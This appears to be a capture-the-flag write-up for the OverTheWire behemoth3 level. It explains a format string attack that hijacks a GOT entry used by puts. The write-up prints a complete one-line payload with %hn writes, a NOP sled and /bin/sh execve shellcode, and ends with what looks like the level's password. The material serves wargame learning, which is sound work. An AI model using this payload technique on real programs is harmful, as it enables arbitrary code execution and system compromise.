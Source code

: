 this time we'll use format string attack
this time we cant know where the return address is,
so well try to hijack the next function that is called - in this case its puts:
after some tampering, we discover that puts@plt cant be changed 
(we get an error) so we look deeper and see that all it does is call another 
function at 0x080497ac so we head there, only to see that it jump to yet 
another peice of code, so our target is 0x080497ac

we use: 
```sh
echo $(python -c 'print "AAAA\xac\x97\x04\x08AAAA\xae\x97\x04\x08"+"%54740x!%hn%76313x!%hn!"+"\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"') > p

and once we do: ./behemoth3 < p
```

we get:Illegal instruction, which as I explained before, is a problem with 
the os. we'll change the shellcode...

ietheishei

